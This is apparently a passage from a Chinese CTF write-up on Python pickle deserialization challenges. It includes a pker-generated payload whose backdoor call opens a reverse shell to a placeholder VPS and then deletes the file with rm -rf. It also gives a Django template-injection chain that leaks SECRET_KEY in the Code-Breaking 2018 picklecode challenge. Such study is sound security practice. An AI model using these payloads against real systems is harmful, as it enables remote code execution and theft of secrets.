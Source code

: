 这里的限制挺简单的了，覆盖一个notadmin字典admin键的值为yes即可执行给出的后门函数`eval()`

```python
# 用pker.py生成payload
s=GLOBAL("config","notadmin")
s["admin"]="yes"
user=INST("config","user")
user.username="tyskill"
user.data="tyskill"
door=INST("config","backdoor",["__import__('subprocess').call(\"echo -e '#!/bin/bash\\nsh -i >& /dev/tcp/you_vps_ip/port 0>&1'>x && bash x && rm -rf x\",shell=True)"])
return user
```

然后`base64.b64encode(data)`加进`session['info']`中拿到shell

看wp，后面的步骤好像还跟pwn有点关系，我对pwn毫无研究，不献丑了，指路两个wp->[wp1](https://juejin.cn/post/6994717395298287624)  |  [wp2](https://ctf.njupt.edu.cn/663.html#what_pickle)

{{% /spoiler %}}

### -->>仅可以引入`builtins`模块

![img](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/9a07ed4bd4c85ec67bcc780dae379984.png)

更多知识参考：[深入理解Python中的`__builtin__`和`__builtins__`](https://blog.51cto.com/xpleaf/1764849)  |  [Python 的内建对象](https://www.jianshu.com/p/645e973 83c1f)  |  [`__builtins__` 与 `__builtin__`（builtins）](https://zhuanlan.zhihu.com/p/125693125)

{{% spoiler "栗子4 - [Code-Breaking 2018] picklecode" %}}
本地复现还是失败，docker地址->https://github.com/phith0n/code-breaking/tree/master/2018/picklecode（就跟被docker诅咒了一样 从来没有成功的用docker复现过一道题😭😭😭真就脑补出flag了

审计源码，是一个django的项目（正好之前的实训做的就是django的项目，看源码轻松一些），主文件夹是core，有一个名为challenge的app

看core下的settings.py比默认的配置多了54和55行

![image-20210809152122940](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809152122940.png)

用了特殊的SESSION_ENGINE和SESSION_SERIALIZER，前者指的是django将用户认证信息存储在哪里 后者指django用什么方式存储认证信息，也就相当于先经过SESSION_SERIAZLIZER指定的方式转换为字符串，再有SESSION_ENGINE指定的方式存储到某个地方。默认的django项目中，存储位置应该是django.contrib.sessions.backends.db，序列化方式应该是django.contrib.sessions.serializers.JSONSerializer；而这里就是用pickle序列化后的形式，加签名singed后存储在cookie中。那这里肯定要控制session，结合pickle来rce了；跟过去看看

![image-20210809152317363](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809152317363.png)

依旧是重写了`find_class()`方法，只有模块是内置的builtins（不需要import就可以用的）并且名字不能在黑名单中才可以；这里的绕过是第二个考点了，先翻回去看一下仅有的app的views.py

![image-20210809153617320](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809153617320.png)

模板部分直接拼接了request.user.username，这是注册时传入，有模板注入漏洞，找找调用链

（因为本地环境太垃圾了 没复现 这里云做题了）在模板处下断点，可以看到很多的上下文变量，通常会存在的有request, user, perms，这里用的利用链是（注意django模板引擎无法读取下划线开头的属性）`{{request.user.groups.source_field.opts.app_config.module.admin.settings.SECRET_KEY}}`，注册一个名为这个的用户即可获得签名的密钥。
